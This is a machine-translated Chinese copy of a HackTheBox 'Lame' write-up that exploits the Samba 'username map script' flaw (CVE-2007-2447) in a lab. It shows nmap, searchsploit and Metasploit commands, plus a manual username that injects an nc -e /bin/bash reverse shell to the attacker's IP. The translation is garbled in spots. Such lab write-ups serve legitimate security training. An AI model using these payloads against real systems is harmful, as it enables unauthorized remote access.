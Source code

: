 # 黑客盒子评论——蹩脚

> 原文：<https://infosecwriteups.com/htb-lame-writeup-e47100aea88b?source=collection_archive---------0----------------------->

*这是从*[*HackTheBox*](https://www.hackthebox.eu/)*中写出的机器* [*瘸腿*](https://www.hackthebox.eu/home/machines/profile/1) *。*

![](img/503e023a2a162b33d7a20cbceb15c9c7.png)

机器地图

# 摘要

Lame 是基于 Linux 平台的初学者友好型机器。这是 HTB 的第一台机器。利用 samba 用户名映射脚本漏洞获取用户和根用户。

> 机器作者:[ch4p](https://www.hackthebox.eu/home/users/profile/1)机器类型:Linux
> 机器级别:2.7/10

# 专有技术

*   Nmap
*   Searchsploit

# 吸收技能

*   [CVE-2007–2447](http://cvedetails.com/cve/cve-2007-2447)
*   Samba“用户名映射脚本”命令执行

# 扫描网络

```
$nmap -sC -sV 10.10.10.3
```

![](img/c04d83f542c299429b055019aa6b2627.png)

man nmap

![](img/dd3a59acd94310e231f13815e02d6363.png)

nmap 结果

# 易受攻击的 Ftp

```
searchsploit vsftpd 2.3.4
```

![](img/5e9029b5749e0a155e518e133b2d2cb8.png)

searchsploit ftp

我试图执行漏洞，但每次都失败了:(

# 脆弱的桑巴

当使用非默认的“用户名映射脚本”配置选项时，此模块利用了 Samba 版本 3.0.20 到 3.0.25rc3 中的命令执行漏洞。通过指定包含 shell mmeta 字符的用户名，攻击者可以执行任意命令。利用此漏洞不需要身份验证，因为此选项用于映射用户名 pbeforeauthentication！。

```
$searchsploit Samba 3.0.20
```

![](img/3bdb8eebadd1b0bbbca317d60f22f4f7.png)

searchsploit 桑巴

# 利用服务器

```
msf5 >use exploit/multi/samba/usermap_scriptset RHOSTS 10.10.10.3
exploit
```

![](img/3f8d77e5e2688d101967699b1b8c2170.png)

壳

# 没有 Metasploit 的手动利用

```
logon “./=`nohup nc -e /bin/bash 10.10.14.7 4444`"
```

*   登录:-用于登录 smb
*   nohup:-运行不受挂起影响的命令，输出到非 tty

![](img/9f4eac8fa7c92f5a4de2ea126cdddf28.png)

# 自己的用户

用户 makis 拥有 user.txt

![](img/8ad24645e05f849537e3a73d5ad94cd0.png)

自己的用户

# 自己的根

![](img/2ece27651ed26e0bb745d77c163dc151.png)

自己的根

![](img/a9ff09c6eb58ce9279bc28f4c49a288e.png)

奖品

*感谢阅读！如果你喜欢这个故事，请点击**👏 ***按钮，分享*** *它来帮助别人！欢迎留言评论*💬*下图。有反馈？下面我们连线上* [*推特*](https://twitter.com/yashanand155) *。**

## *❤️由[增加到](https://twitter.com/yashanand155)*

*[](https://twitter.com/yashanand155) [## inc0gnito

### inc0gnito 的最新推文(@yashanand155)。CTF 玩家| | hack the box | | CTFs with @ ABS 0 lut 3 pwn 4g 3🚩||调制…

twitter.com](https://twitter.com/yashanand155)*